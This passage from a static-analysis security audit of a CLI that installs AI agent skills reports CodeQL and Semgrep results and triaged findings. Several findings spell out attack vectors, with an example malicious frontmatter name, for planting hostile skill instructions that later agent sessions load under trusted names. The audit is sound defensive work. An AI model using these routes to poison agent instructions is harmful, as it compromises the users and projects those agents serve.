- No dynamic install/fuzz tests were run in this stage beyond reading Stage 2 evidence; Phase 5 should execute targeted symlink, ref, well-known, and parser payloads.
- `dist/cli.mjs` was not present in the scanned file listing; source-to-bundle parity and bundled dependency versions need Phase 5/7 validation before release claims.
- GitHub API authenticated advisory collection had earlier `gh` 401 gaps; advisory data may miss private/security-advisory records.
- Downstream agent-specific execution semantics are out of repo scope; this KB models installed files as high-impact but cannot prove each agent’s tool permissions.
- Windows-specific shell/junction behavior was reasoned from code and tests but not dynamically exercised in this stage.
- No MCP Perplexity/Tavily tools were available; web-search fallback/cached artifacts were used.

## Static Analysis Summary

Generated: 2026-05-01  
Stage: P4 Static Analysis & Triage  
Primary artifacts: `piolium/attack-surface/source-sink-flows-all-severities.md`, `piolium/attack-surface/sast-merged.sarif`, `piolium/codeql-artifacts/*`, `piolium/findings-draft/p4-*.md`. Transient `piolium/codeql-res/`, `piolium/semgrep-res/`, and `~/.semgrep/cache/` were cleaned after this report was written; `piolium/codeql-artifacts/db/` was retained.

### Execution and coverage

| Tool/pass | Scope | Engine / rulesets | Results | Notes |
|---|---|---|---:|---|
| CodeQL DB build | JS/TS source, scripts, bin, workflows | `javascript` database at `piolium/codeql-artifacts/db/` | 34 JS/TS + 3 workflow files scanned | Tests/dist/node_modules/piolium excluded from DB config; DB retained for later phases. |
| CodeQL structural extraction | P4 source/sink/slice queries | custom `piolium/codeql-queries/*.ql` | 92 entry points, 244 sinks, 7/15 reachable slices | `flow-paths-raw.sarif`, `flow-paths-all-severities.md`, `call-graph-slices.json` written. |
| CodeQL built-in | Whole repo DB | `codeql/javascript-queries` `javascript-security-and-quality.qls` with local/environment threat models | 44 results | No third-party CodeQL packs installed/resolved. |
| CodeQL custom | DFD/CFD blind spots | `slice-architecture-source-to-sink.ql` | 20 path results | Models CLI/env/file/fetch sources into git/fetch/parser/file sinks. |
| Semgrep baseline | Whole repo | `--pro`, `p/security-audit`, `p/secrets` | 2 results | Pro engine confirmed in SARIF. |
| Semgrep language/framework | JS/TS/Node, workflows | `--pro`, `p/typescript`, `p/javascript`, `p/nodejs`, `p/github-actions` | 1 result | `p/yaml` registry config returned HTTP 404 and was not used; no OSS fallback was used for successful passes. |
| Semgrep custom | `src`, `bin`, `scripts`, `.github/workflows` | `--pro`, `piolium/semgrep-rules/p4-custom-*.yml` | 46 results | 22 custom rules cover Domain Attack Research custom target classes relevant to TypeScript/YAML. |
| Agentic Actions Auditor | `.github/workflows/*.yml` | local grep per skill methodology | 0 AI action instances | No Claude/Gemini/Codex/GitHub AI Inference actions found. |
| SpotBugs/FindSecBugs | Java only | N/A | N/A | Repository is TypeScript/Node, not a Java application. |
| SARIF merge | CodeQL + Semgrep | local SARIF merge per `sarif-parsing` guidance | 113 merged results | Written to `piolium/attack-surface/sast-merged.sarif`. |

Semgrep Pro was enforced for all successful Semgrep passes. A preliminary `semgrep --pro --validate --config p/default` hit a local Python/jsonschema traceback (`unhashable type: 'dict'`), but actual `semgrep scan --pro` passes completed with `Semgrep PRO` engine. No standard/OSS fallback was used for accepted scan results.

### Custom artifacts created

- CodeQL query pack: `piolium/codeql-queries/qlpack.yml`.
- CodeQL structural/custom queries:
  - `piolium/codeql-queries/list-sources.ql`
  - `piolium/codeql-queries/list-sinks.ql`
  - `piolium/codeql-queries/slice-architecture-source-to-sink.ql`
- Semgrep custom rules:
  - `piolium/semgrep-rules/p4-custom-typescript.yml`
  - `piolium/semgrep-rules/p4-custom-github-actions.yml`
- Draft findings created (8, under the cap of 30):
  - `piolium/findings-draft/p4-001-direct-git-url-ref-reaches-simple-git-clone.md`
  - `piolium/findings-draft/p4-002-symlink-dereference-copies-out-of-tree-files.md`
  - `piolium/findings-draft/p4-003-http-well-known-skill-discovery.md`
  - `piolium/findings-draft/p4-004-unbounded-well-known-fetch-and-frontmatter-parse.md`
  - `piolium/findings-draft/p4-005-duplicate-skill-name-first-wins.md`
  - `piolium/findings-draft/p4-006-blob-snapshot-not-verified-against-github-tree.md`
  - `piolium/findings-draft/p4-007-lockfile-update-source-self-spawns-installer.md`
  - `piolium/findings-draft/p4-008-node-modules-sync-installs-dependency-skills.md`

Targeted custom analysis was driven by DFD-01 through DFD-05 and CFD-01/CFD-02: git clone execution, well-known HTTP fetches, blob snapshot trust, recursive copy/symlink semantics, lockfile update self-spawn, duplicate skill names, and release workflow hardening.

## CodeQL Structural Analysis

### Structural extraction results

| Artifact | Count / status |
|---|---:|
| CodeQL database | `piolium/codeql-artifacts/db/` retained |
| Entry points | 92 records in `entry-points.json` |
| Sinks | 244 records in `sinks.json` |
| P4 slice reachability | 7 reachable / 15 modeled slices |
| Built-in all-severity SARIF | `piolium/codeql-artifacts/flow-paths-raw.sarif` |
| Human-readable flow summary | `piolium/codeql-artifacts/flow-paths-all-severities.md` |

Top source classes: environment variables (49), filesystem/lock reads (25), remote fetch body parsers (9), CLI handler parameters (7), and raw `process.argv` (2). Top sink classes: terminal output (189), file access (28), HTTP requests (10), command execution (8), recursive delete (8), and YAML parse (1).

### Reachability table

| Slice | Reachable | Interpretation |
|---|---:|---|
| P4-001 CLI argv -> git clone URL | true | Strengthens direct-git/ref validation finding. |
| P4-002 ref -> clone branch options | true | Strengthens ref option/protocol validation finding. |
| P4-003 remote git tree -> `cp(...dereference:true)` | false | CodeQL cannot model cloned repo filesystem entries; Semgrep/manual evidence retained. |
| P4-004 blob snapshot paths/content -> writeFile | false | JSON field/closure write path not modeled; Semgrep evidence retained. |
| P4-005 well-known files -> writeFile | false | Fetch-to-parser paths modeled, write Map closure not modeled. |
| P4-006 CLI well-known URL -> fetch | true | Strengthens HTTP well-known/MITM finding. |
| P4-007 local path -> copy/symlink | false | Manual review needed; local path trust boundary remains. |
| P4-008 lockfile -> self-spawned add | true | Strengthens lockfile update finding. |
| P4-009 skill name -> recursive rm | false | Sink enumerated; no CodeQL source path. |
| P4-010 env API bases -> fetch | true | Shows env can redirect blob/find APIs. |
| P4-011 env state/config dirs -> file access | true | Mostly environment/admin-only; used for downgrade decisions. |
| P4-012 PATH/env -> `execSync('gh auth token')` | false | Semgrep matched; env/admin-only in enrichment. |
| P4-013 remote SKILL -> YAML parser | true | Strengthens parser DoS finding. |
| P4-014 search API result -> install | false | No result-to-install path; manual review retained. |
| P4-015 plugin manifest paths -> discovery | false | No path generated; manual review retained. |

### Machine-Generated DFD Diagram



### Machine-Generated CFD Diagram



Extraction quality note: CodeQL modeled the CLI-to-fetch/git/parser/lockfile paths well, but did not model taint originating from cloned repository filesystem entries or remote JSON file-path fields through installer-local closures. Those blind spots were covered with custom Semgrep rules and manual triage.

## SAST Enrichment

Low/correctness-only results were dropped immediately where noted. Remaining grouped candidate findings were classified before draft handoff.

| Finding | Classification | Attacker Control | Boundary | CodeQL Reachability | Verdict |
|---------|---------------|-----------------|----------|-------------------|---------|
| p4-001 direct git URL/ref to simple-git clone | security | copied CLI command, lock-derived update source, or malicious docs control source/ref | user shell/lockfile -> native git subprocess | reachable P4-001/P4-002 | keep |
| p4-002 symlink dereference copy | security | malicious remote git/local skill tree controls symlinks | public repo/local package -> local filesystem -> AI agent skill dir | no path; sink enumerated, Semgrep matched | keep |
| p4-003 HTTP well-known discovery | security | network attacker or malicious HTTP host controls index/SKILL/files | public network -> installed agent instructions | reachable P4-006 | keep |
| p4-004 unbounded fetch/frontmatter parse | security/robustness | malicious well-known/blob/local skill controls response body/frontmatter size | public network/filesystem -> YAML parser in CLI runtime | reachable P4-013 | keep |
| p4-005 duplicate skill name first-wins | security | malicious repo controls frontmatter names and directory order | untrusted skill metadata -> selection/install policy | no CodeQL slice; Semgrep matched | keep |
| p4-006 blob snapshot trust split | security | skills.sh response or `SKILLS_DOWNLOAD_URL` env controls installed snapshot | external snapshot service/env -> agent skill files | reachable P4-010 for fetch; write path not modeled | keep |
| p4-007 lockfile update self-spawn | security | source-controlled/tampered lockfile controls update source/ref/path | project/global lockfile -> self-spawned installer -> git/fetch/install | reachable P4-008 | keep |
| p4-008 node_modules sync installs dependency skills | security | malicious/compromised npm dependency controls SKILL.md content | package dependency -> project agent skill dir | no CodeQL path; Semgrep matched supply-chain flow | keep |
| CodeQL `js/request-forgery` for GitHub/blob/find URLs | security/env mixed | CLI source/env can alter outbound API URLs | CLI/env -> network fetch | reachable P4-006/P4-010 | keep only well-known/blob trust cases; drop benign fixed GitHub API fetches |
| CodeQL `js/path-injection` env-derived agent/lock paths | environment/tooling/admin-only | local environment variables (`XDG_STATE_HOME`, agent home dirs) | shell environment -> same-user filesystem | reachable P4-011 | drop |
| CodeQL `js/regex-injection` in `scripts/execute-tests.ts` | correctness/dev-only | test runner CLI args | developer test script only | no security slice | drop |
| CodeQL `js/user-controlled-bypass` in prompts/list/test scripts | correctness/robustness | CLI flags decide UX branches | same-user CLI UX | partial custom paths only | drop |
| CodeQL `js/file-system-race` in `init` | correctness/robustness | same-user filesystem changes | local filesystem TOCTOU in init helper | no high-risk slice | drop |
| CodeQL `js/remote-property-injection` in list grouping | correctness/robustness | lock/plugin name controls display grouping key | lockfile -> terminal/listing state | no high-risk slice | drop |
| CodeQL/Semgrep unused variables | correctness | none security-relevant | build/lint quality | no slice | drop |
| Semgrep child_process in `src/test-utils.ts` | dev/test-only | test helper callers control args | test runtime -> child_process | no runtime slice | drop |
| Semgrep GitHub Actions shell interpolation | environment/tooling/admin-only | `github.ref`, `github.event_name`, choice input, or commit metadata; no external PR secrets path | GitHub Actions release workflow | no CodeQL slice | drop |
| Semgrep unpinned publish actions | environment/tooling/admin-only | action maintainers / release supply chain | token-bearing publish workflow | no CodeQL slice | drop as hardening, track in CI review |
| Semgrep `execSync('gh auth token')` PATH hijack | environment/tooling/admin-only | local PATH/environment controls executable lookup | same-user shell env -> local command | no CodeQL path; Semgrep matched P4-012 | drop |
| Semgrep internal skill include gate | correctness/policy | user explicitly requests `--skill` | CLI option -> internal metadata gate | no CodeQL path | drop |
| Semgrep remote file path to writeFile | security/correctness | remote file path controls install relative path | remote snapshot/well-known -> filesystem write | no CodeQL path; Semgrep matched P4-004/P4-005 | keep as supporting evidence for p4-006 only |
| Semgrep dangerous git fallback | security | unrecognized CLI source controls direct git URL | source parser fallback -> git clone | reachable P4-001/P4-002 | keep as supporting evidence for p4-001 |
| Semgrep path-relative well-known / content-type checks | correctness/spec-gap | malicious host controls response and path scope | HTTP response/spec interpretation -> parser/install | reachable P4-006/P4-013 partially | drop as standalone; carry to Phase 6 spec review and p4-003/p4-004 context |
| Semgrep unreviewed global `-g -y` install | correctness/policy | copied command controls noninteractive/global flags | CLI UX -> persistent global agent dirs | no CodeQL path | drop as standalone; covered by UX hardening |
| Semgrep metadata propagation / regex/glob watch rules | low/correctness | remote metadata or future pattern input | parser metadata -> display/config or future glob use | no CodeQL path | drop immediately as Low/watch-only |

### DFD/model coverage notes

- Entry points not present in Phase 3 DFD slices: `scripts/generate-licenses.ts`, `scripts/sync-agents.ts`, `scripts/execute-tests.ts`, and `src/test-utils.ts`; these are build/test/dev utilities and were dropped during enrichment.
- Additional modeled source not emphasized in Phase 3 DFD: `process.env` for agent home/config dirs and API base overrides. API override paths support p4-006; same-user home/config paths were downgraded.
- Sinks requiring future manual review despite no CodeQL slice: recursive delete (`rm(...recursive:true)`), cloned filesystem entries into `cp(...dereference:true)`, plugin manifest path discovery, and remote JSON file-path fields through installer-local closures.

## State & Concurrency Audit

- State-holding entities catalogued: 8
- Concurrency primitives observed: none (no language mutexes/queues, database transactions, `SELECT FOR UPDATE`, advisory locks, or Redis/distributed locks in first-party runtime code)
- Idempotency infrastructure: absent; not applicable to payments/webhooks because no inbound payment, webhook, OAuth callback, or retried event handler exists
- Drafts filed: 1 (`rmw-no-txn`: 1) — `piolium/findings-draft/p6-001-lockfile-rmw-loses-concurrent-updates.md`

## Authorization Audit

- Endpoints enumerated: 26
- Frameworks covered: Node.js/TypeScript CLI dispatcher, outbound HTTP/fetch client operations, native git transport, and GitHub Actions workflows. No inbound Express/Nest/GraphQL/gRPC/proto/WebSocket/queue routes were detected.
- Dynamic/unresolved endpoints: 0 route handlers; 4 source-level/manual-review notes (see `piolium/authz-coverage-gaps.md`).
- Drafts filed: 0 (`authz-missing-guard`: 0, `idor-bola`: 0, `vertical-escalation`: 0, `tenant-isolation`: 0, `mass-assignment`: 0, `public-variant`: 0, `inconsistent-guard`: 0, `auth-bypass-optional`: 0).
- Matrix: `piolium/attack-surface/public-routes-authz-matrix.md`

## Spec Gap Analysis

Stage 07 compared the Phase 3 spec candidates against the implementation and filed two medium-severity draft findings. Items already covered by Phase 4 findings (HTTP well-known transport, missing fetch/parser limits, direct git/ref validation, duplicate names, blob snapshot trust, lockfile update trust, and `node_modules` sync) were not duplicated.

### Gap: Path-relative `.well-known` discovery shadows origin-root metadata

- **RFC/Spec**: RFC 8615, Sections 3 and 4.1
- **Requirement**: Section 3: “A well-known URI is a URI … whose path component begins with the characters `/.well-known/`”; “Well-known URIs are rooted in the top of the path's hierarchy; they are not well-known by definition in other parts of the path. For example, `/.well-known/example` is a well-known URI, whereas `/foo/.well-known/example` is not.” Section 4.1: well-known locations “effectively represent the entire origin,” so write access requires origin-level control.
- **Code Path**: `src/providers/wellknown.ts:101-129` — derives `basePath` from the user URL and queues `${basePath}/.well-known/agent-skills/index.json` before the root `/.well-known/agent-skills/index.json`; `src/providers/wellknown.ts:132-158` returns the first valid index.
- **Gap Type**: normalization
- **Attack Vector**: An attacker with write access only under a path on a shared/trusted origin publishes `<path>/.well-known/agent-skills/index.json` and tricks a victim into `skills add https://trusted.example/<path>`; the path-local metadata shadows the origin-root RFC 8615 metadata.
- **Exploit Conditions**: HTTPS origin has distinct path-level control boundaries (shared hosting, user docs paths, multi-tenant app paths) and the victim installs from a URL containing the attacker-controlled path.
- **Impact**: Malicious skill instructions are installed under the apparent trusted origin namespace and persist into project/global agent directories.
- **Severity**: MEDIUM
- **Evidence**: `src/providers/wellknown.ts:115-127` constructs both path-relative and root URLs, with the path-relative URL pushed first; RFC 8615 explicitly says `/foo/.well-known/example` is not a well-known URI. Draft: `piolium/findings-draft/p7-001-rfc8615-path-relative-well-known-shadowing.md`.

### Gap: Agent Skills `name` constraints are not enforced before deriving install directories

- **RFC/Spec**: Agent Skills specification, `SKILL.md` format / `name` field
- **Requirement**: The required `name` field has “Max 64 characters. Lowercase letters, numbers, and hyphens only. Must not start or end with a hyphen”; the `name` field “Must be 1-64 characters”, “Must not contain consecutive hyphens (`--`)”, and “Must match the parent directory name.”
- **Code Path**: `src/skills.ts:37-56` — only requires `name` and `description` to be strings and returns `sanitizeMetadata(data.name)` without enforcing length, character set, `--`, or parent-directory equality; `src/installer.ts:245-247` then chooses `skill.name` over `basename(skill.path)` and `src/installer.ts:40-54` lossy-sanitizes it into the install directory name.
- **Gap Type**: missing-check
- **Attack Vector**: A malicious source places a skill in `innocent/SKILL.md` with frontmatter `name: ../../code-review` or `name: code-review`; the installer accepts the non-conformant/mismatched name and writes to the sanitized trusted install name.
- **Exploit Conditions**: Victim installs a remote/local skill source or subpath; overwrite/shadowing is most impactful for global (`-g`) or non-interactive (`-y`) installs and when a trusted skill name already exists.
- **Impact**: Namespace squatting and overwrite/shadowing of trusted skills in agent directories, causing future agent sessions to activate malicious instructions under a trusted skill name.
- **Severity**: MEDIUM
- **Evidence**: Agent Skills reference validator enforces these constraints in `piolium/attack-surface/raw/spec-gap/agentskills-validator.py:25-67`; the project code only string-checks and sanitizes. Draft: `piolium/findings-draft/p7-002-agent-skill-name-constraints-not-enforced.md`.

## Cross-Service Taint Propagation

Skipped — single-service project; no inter-service edges detected.
